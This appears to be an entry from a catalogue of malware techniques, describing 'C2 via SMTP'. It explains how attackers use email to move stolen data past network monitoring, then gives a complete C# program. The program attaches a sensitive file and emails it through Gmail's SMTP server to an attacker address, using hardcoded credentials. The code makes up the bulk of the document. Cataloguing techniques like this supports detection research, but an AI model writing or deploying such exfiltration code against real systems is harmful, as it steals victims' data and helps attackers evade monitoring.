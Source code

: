 # Technique Name: **C2 via SMTP**

## Author Information

- Nickname: tasdir
- First Name: Tasdir
- Last Name: Ahmmed
- GitHub: https://github.com/tasdir
- Twitter: https://x.com/tasdir_x
- LinkedIn: https://www.linkedin.com/in/tasdir/

## Technique Information

- Technique Category: U0910
- Technique Tags: SMTP,C2,Data Exfiltration,Encrypted Emails

## Technique General Detail: 

C2 via SMTP is a technique where attackers leverage the Simple Mail Transfer Protocol (SMTP) to establish command and control communication or to exfiltrate data. By utilizing email messages, an attacker sends stolen data via emails to a controlled email account. This method is often used to bypass traditional network monitoring solutions since SMTP traffic is generally considered benign.
To implement C2 via SMTP, attackers embed hardcoded credentials within malware to connect to an email server. The malware sends exfiltrated data, such as stolen files or system information, as attachments via email. SMTP providers, such as Gmail or Outlook, can be misused to act as intermediaries for C2 traffic, making the communication harder to detect. Additionally, attackers may use SSL/TLS encryption to secure emails, further complicating detection efforts.




# Featured Windows API's: 
SmtpClient (C# libraries) , System.Net.Mail.MailMessage , System.IO (file handling for attachments)

## Code Snippet:

```
using System;
using System.IO;
using System.Net;
using System.Net.Mail;

class C2ViaSMTP
{
    static void Main()
    {
        // Target file exfiltrate
        string targetFilePath = @"C:\SensitiveData\report.pdf";
        string emailRecipient = "attacker@example.com";
        string attackerEmail = "malwarebot@gmail.com";
        string attackerPassword = "maliciouspassword123";

        try
        {
            // Send data as a email message
            MailMessage message = new MailMessage();
            message.From = new MailAddress(attackerEmail);
            message.To.Add(emailRecipient);
            message.Subject = "Exfiltrated Data";
            message.Body = "Attached file contains sensitive exfiltrated data.";
            
            // Add target file as attachment
            Attachment attachment = new Attachment(targetFilePath);
            message.Attachments.Add(attachment);

            // Configure SMTP client
            SmtpClient smtpClient = new SmtpClient("smtp.gmail.com")
            {
                Port = 587,
                Credentials = new NetworkCredential(attackerEmail, attackerPassword),
                EnableSsl = true
            };

            // Send email
            smtpClient.Send(message);
            Console.WriteLine("Data exfiltration email sent successfully.");
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error: " + ex.Message);
        }
    }
}

```

